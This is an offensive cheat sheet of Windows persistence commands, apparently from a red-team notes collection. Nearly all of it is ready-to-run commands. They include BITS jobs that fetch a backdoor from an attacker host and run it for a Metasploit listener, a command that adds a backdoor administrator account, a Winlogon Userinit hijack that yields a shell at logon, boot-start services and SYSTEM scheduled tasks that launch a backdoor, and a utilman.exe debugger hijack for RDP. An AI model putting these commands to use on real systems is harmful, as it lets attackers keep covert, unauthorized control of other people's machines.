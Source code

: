 # Persistence
For specifically [[Active-Directory-Persistence]].

## Persistence Bottom-Up

#### Startup folder persistence
```
C:\Users\%username%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```
Edit the registry, Startup from registry editing
```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
```

#### BITS Jobs
```powershell
# Note: In order to work you have to have a webserver running so BITS can download the backdoor and Metasploit listening for connections.
# ALSO Note: BITS is very unstable and can and might give you just temporary persistence.
bitsadmin /addfile backdoor "http://attackbox:port/backdoor.exe" "C:\Users\%username%\somewhere\backdoor.exe"
bitsadmin /SetNotifyCmdline 1 cmd.exe "/c bitsadmin.exe /complete backdoor | start /B C:\path\backdoor.exe"
bitsadmin /SetMinRetryDelay backdoor 30
bitsadmin /resume
```


##  Persistence Top-Down
#### Creating another administrator user
```powershell
net user /add <user> <password>
net localgroup Administrators backdoor /add
```
####  Edit the registry
User logon that sends you a shell:
```powershell
reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /d "Userinit.exe, <PATH_TO_BINARY>" /f 
```

#### Persistence by creating a service
```powershell
New-Service -Name "<SERVICE_NAME>" -BinaryPathName "<PATH_TO_BINARY>" -Description "<SERVICE_DESCRIPTION>" -StartupType "Boot"
```
#### Scheduled tasks
```powershell
New-ScheduledTaskAction -Execute "cmd.exe" -ARgument "/ C:\path\backdoor.exe"
New-ScheduledTaskTrigger -AtlogOn
New-ScheduledTaskPrincipal -UserId "NT AUTHORITY\SYSTEM" -RunLevel Highest
New-ScheduledTaskSettingsSet
Register-ScheduledTask -Action $A -Trigger $B -Principal $C -Settings $D
Register-ScheduledTask Backdoor -InputObject $E
```
####  Backdooring RDP
```powershell
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f	
```